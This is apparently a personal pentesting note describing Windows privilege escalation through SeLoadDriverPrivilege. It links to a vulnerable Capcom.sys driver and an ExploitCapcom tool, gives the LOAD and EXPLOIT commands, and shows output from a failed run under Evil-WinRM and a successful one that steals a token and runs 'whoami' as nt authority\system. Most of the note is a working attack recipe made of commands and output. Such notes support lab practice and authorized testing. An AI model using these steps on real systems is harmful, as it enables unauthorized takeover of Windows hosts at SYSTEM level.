 # SeLoadDriverPrivilege

Note by manesec.

## Need

Need two file `Capcom.sys` and `ExploitCapcom.exe`.

`ExploitCapcom.exe` can download from [here](https://github.com/clubby789/ExploitCapcom/releases).

`Capcom.sys` can download from [here](https://m4t3sz.gitlab.io/posts/htb/fuse/expl/seloaddriverpriv/Capcom.sys).

## Exploit

**NOTE**: Please use the absolute path !!!!!

```powershell
ExploitCapcom.exe LOAD C:\mane\Capcom.sys
ExploitCapcom.exe EXPLOIT whoami
```

Failed message:

```powershell
C:\mane>ExploitCapcom.exe EXPLOIT whoami
ExploitCapcom.exe EXPLOIT whoami
[*] Capcom.sys exploit
[-] CreateFile failed
```

I found that when you are trying to exploit via `Evil-WinRM`, it will be failed. 

```powershell
*Evil-WinRM* PS C:\mane> ./ExploitCapcom.exe LOAD C:\mane\Capcom.sys
[*] Service Name: whqobdxtø/°È
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\????????????????????
NTSTATUS: c0000034, WinError: 0

*Evil-WinRM* PS C:\mane> ./ExploitCapcom.exe EXPLOIT whoami
[*] Capcom.sys exploit
[-] CreateFile failed
```

**You may need to spawn CMD shell to exploit it.**

When it **Success**, it will return:

```powershell
C:\mane>ExploitCapcom.exe LOAD C:\\mane\Capcom.sys
ExploitCapcom.exe LOAD C:\\mane\Capcom.sys
[*] Service Name: iihqptxj��tE]
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\????????????????????
NTSTATUS: 00000000, WinError: 0

C:\mane>ExploitCapcom.exe EXPLOIT whoami
ExploitCapcom.exe EXPLOIT whoami
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 000001BCE4D10008
[+] Shellcode was executed
[+] Token stealing was successful
[+] Command Executed
nt authority\system

C:\mane>
```


